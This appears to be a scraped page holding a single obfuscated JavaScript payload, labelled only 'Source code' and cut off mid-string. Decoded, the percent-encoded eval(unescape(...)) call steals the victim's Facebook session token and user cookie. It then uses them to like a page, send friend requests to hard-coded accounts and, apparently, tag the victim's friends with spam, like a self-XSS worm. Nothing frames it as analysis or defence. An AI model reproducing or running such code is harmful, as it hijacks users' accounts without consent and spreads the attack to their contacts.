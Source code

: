 eval(unescape("%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%4C%69%6B%65%28%70%29%20%7B%0A%20%20%76%61%72%20%50%61%67%65%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%50%61%67%65%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%70%61%67%65%73%2F%66%61%6E%5F%73%74%61%74%75%73%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%50%61%67%65%50%61%72%61%6D%73%20%3D%20%22%26%66%62%70%61%67%65%5F%69%64%3D%22%20%2B%20%70%20%2B%22%26%61%64%64%3D%74%72%75%65%26%72%65%6C%6F%61%64%3D%66%61%6C%73%65%26%66%61%6E%5F%6F%72%69%67%69%6E%3D%70%61%67%65%5F%74%69%6D%65%6C%69%6E%65%26%66%61%6E%5F%73%6F%75%72%63%65%3D%26%63%61%74%3D%26%6E%63%74%72%5B%5F%6D%6F%64%5D%3D%70%61%67%65%6C%65%74%5F%74%69%6D%65%6C%69%6E%65%5F%70%61%67%65%5F%61%63%74%69%6F%6E%73%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%64%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%50%61%67%65%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%50%61%67%65%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%50%61%67%65%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%50%61%67%65%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%50%61%67%65%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%50%61%67%65%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%50%61%67%65%2E%73%65%6E%64%28%50%61%67%65%50%61%72%61%6D%73%29%3B%0A%7D%0A%4C%69%6B%65%28%22%30%22%29%3B%0A%20%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%49%44%53%28%72%29%20%7B%0A%20%20%76%61%72%20%58%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%58%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%61%64%64%5F%66%72%69%65%6E%64%2F%61%63%74%69%6F%6E%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%58%50%61%72%61%6D%73%20%3D%20%22%74%6F%5F%66%72%69%65%6E%64%3D%22%20%2B%20%72%20%2B%22%26%61%63%74%69%6F%6E%3D%61%64%64%5F%66%72%69%65%6E%64%26%68%6F%77%5F%66%6F%75%6E%64%3D%66%72%69%65%6E%64%5F%62%72%6F%77%73%65%72%5F%73%26%72%65%66%5F%70%61%72%61%6D%3D%6E%6F%6E%65%26%26%26%6F%75%74%67%6F%69%6E%67%5F%69%64%3D%26%6C%6F%67%67%69%6E%67%5F%6C%6F%63%61%74%69%6F%6E%3D%73%65%61%72%63%68%26%6E%6F%5F%66%6C%79%6F%75%74%5F%6F%6E%5F%63%6C%69%63%6B%3D%74%72%75%65%26%65%67%6F%5F%6C%6F%67%5F%64%61%74%61%26%68%74%74%70%5F%72%65%66%65%72%65%72%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%33%35%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%58%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%58%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%58%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%58%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%58%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%58%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%58%2E%73%65%6E%64%28%58%50%61%72%61%6D%73%29%3B%0A%7D%0A%49%44%53%28%22%31%30%30%30%30%36%30%31%33%35%36%36%35%38%32%22%29%3B%0A%49%44%53%28%22%31%30%30%30%30%32%31%35%31%37%34%37%34%38%37%22%29%3B%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%32%31%30%34%39%32%31%39%39%31%36%31%32%33%31%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%67%74%68%22%2C%22%65%6E%74%72%69%65%73%22%2C%22%70%61%79%6C%6F%61%64%22%2C%22%72%6F%75%6E%64%22%2C%22%20%40%5B%22%2C%22%75%69%64%22%2C%22%3A%22%2C%22%74%65%78%74%22%2C%22%5D%22%2C%22%20%22%2C%22%5C%78%32%36%66%69%6C%74%65%72%5B%30%5D%3D%75%73%65%72%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%30%5D%3D%66%72%69%65%6E%64%73%5F%6F%6E%6C%79%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%31%5D%3D%6E%6D%22%2C%22%5C%78%32%36%74%6F%6B%65%6E%3D%76%37%22%2C%22%5C%78%32%36%76%69%65%77%65%72%3D%22%2C%22%5C%78%32%36%5F%5F%75%73%65%72%3D%22%2C%22%68%74%74%70%73%3A%2F%2F%22%2C%22%69%6E%64%65%78%4F%66%22%2C%22%55%52%4C%22%2C%22%47%45%54%22%2C%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%6F%70%65%6E%22%2C%22%68%74%74%70%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%73%65%6E%64%22%2C%22%72%61%6E%64%6F%6D%22%2C%22%66%6C%6F%6F%72%2